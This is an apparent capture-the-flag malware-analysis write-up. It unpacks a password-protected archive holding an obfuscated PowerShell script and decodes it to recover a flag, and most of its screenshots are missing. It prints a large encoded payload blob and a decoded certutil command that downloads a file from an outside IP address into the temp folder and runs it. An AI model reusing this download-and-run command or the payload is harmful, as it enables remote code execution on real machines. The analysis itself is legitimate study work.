









# Prompt



# Solution

- Looking at the file, it started with UHC, which is a UHARC compressed file password protected with the password ‘infected’. The tools on Linux with Wine weren’t working properly, so I had to go to a Windows host with UHARC GUI.  



- The extracted file is a Powershell script:



- Cleaning up the script some and grabbing the $s.arguments variable, you can piece together some of the variables to see what’s going on:


- At the bottom, there is a block of base64 encoded code:



- Clean the code up - remove the ‘’, the +’s, and replace {0} with ‘L’ and {1} with ‘E’. The command in the code -f''L'',''E'')) replaces the 0 and 1 with the corresponding letters. 

```
H4sIAIeJG2UC/+1XbU/jOBD+3l9hrSIlkU{0}VFvb{1}IiFdWqDbPRJKS8vRbrUKyTR168TFcQplb//7jfNSygJ73{1}lI94FIVvwyMx4/M7YfT9PYl5THhH7sku8VUnxdT3gRMTT/ku/
fWUSjS3MzpoX7zCWHxBjby+URjzwaTw4OWqkQ{1}Mu8XW2DtJM{1}omtGITFM8he5nIGAnbPrOfiSfCfat2qb8WuPFW{0}rlufPgOzYcaDGTrnvKbeq/SWj0tC/ftXN8U59Uj2+ST2WGH
p/nUiIqgFjukl+mGrCi/USDN2hvuAJn8rqJY13G9VBnHhTcNHaChyQMx4kulnZ{0}{1}aAT{1}Wcr0kZyUUMHatdwX07CAQkiW6RsTI/nkx+N8bF3{0}00ljSCaieWIPiyD2JFfUiqn70
4YNCD6QS1+l{0}QOJyYJoqt+AIM{0}U4Zs8i/MWO4cFsi91olY1sJpbpSmBYG9Jl1OjxIGeSa+jOO5klg4pcngln5UalMy7yJvPq3o6eZs2mX3zgbAHTX6PK{1}ZrqHpGYRByf2JBdrbG
oXIgVzsgGbaNGe/Yf1SmP1UhP1Vu0Ue8ZDToPJRn0r7tr0pj38q{1}ReTuIjmNIYjtaxF1G/zFPjuWjAl{1}{1}GR7UUc9{1}9Qy8GIDgCBq{1}
nFb4qKZ6oHUdUbnSbKWUBCNvHiCboFQbbfOxMHjJD78QORAhd3sYs1aa4O6CU{0}nb{1}upxdtVFIbz{1}vSSzSTXF7+hbpg8cgsIgdJ7QYslPJs6r+4K6TMkl9{0}5GluYn5{1}5zFtC
0eJ1KkPgYVIbjo{0}8GnHlOIWOQzDaC57tOwnF5/Fo+WxxjuG7S0wnhgj8Kh{0}1WqCPQ0Swuz2gfZiZYMIpTJjosT5oV4OBS7I8st{0}4RAf8HRchPkGa+QKSHZchPD3WdcWmRIhc
TDR6GM2fVfnHhy6uTOtAQUwTGyvTVurqXKfi0+PW8sVI4WAGVwCIlQnAgeNb0{1}ftv{0}DxjjQ6dlh+/lvbyX9/K/{0}22X+XGvHrRZ0mnV6350N7+6dPmob
8sRbf{0}gc+/2jO6vTufHt856786dO6lz{1}e5ie302D2/PjuxVtzFMrxqfFqP{0}3nQU3c1G9zXmzq+YGzn4P8biM7fRwf85lk4+Nh8w536Q1Z17P6vn7WP8h1gW2R/n+0m2g8UuZM{0}
M3kN7UYyHhT17M5+aw22ch1+GvZO{0}oc3+bF+FX2jzPmifrIOWvTqnNhseD91Ba+iPwsPDD2ZlPKCx3G1M1{1}W+qwhSRWP+p/2tS+Al6ud4Ipl5DC8H5HTlFX3CxUnB1{0}qcKg3DU{1}
x/ASIGhvQYCXR5sdmMcV+RxJzSIUPNeaOisYNO5tVzNZNsBM0H9lh2HRyM0{1}u8{0}{0}O7rHoKcShnVu1ut1ZD7le7q+3htfj6pbX4cm3ktixFHjNwNtZZZt2s0CkxjDfHC98H{1}unK{0}
xB7CTyce4H0AvlOfukrCJucs20Ai5Vt8u{1}RfghcHVc/Vq+D{0}FPQxA7c{1}{1}0q/rzFxrX0+uz6TZOnIC8z/AX/mDwPfb8YfVVC1awcoCfdjzseiN/bIXDpUYmCfaRhDPKHwQtAFBtmK8gqP{0}
gbpsWnHspnqdxx8emlmODf2GZMc54PAAA=
```

- With that, you get the below decoded code:



- I was originally looking at the functions and performing some analysis (aka using LLMs, lol). Bard, specifically, annotated the code to say what these functions are doing. However, between executing the code in a VM, looking at VirusTotal (was already submitted), and some other analysis, nothing really came from it.





- When I originally decoded the Base64 string in Powershell, I received a bunch of decimal digits in Powershell and never went and tested it another way/not on Windows. Doing so, yielded the string below:



```powershell
certutil -urlcache -f http://.103.163.187.12:8080/?encoded_flag=%66%6c%61%67%7b%64%62%66%65%35%66%37%35%35%61%38%39%38%63%65%35%66%32%30%38%38%62%30%38%39%32%38%35%30%62%66%37%7d %TEMP%\f & start /B %TEMP%\f
```

- Decoding the URL encoded string, you can retrieve the flag: 

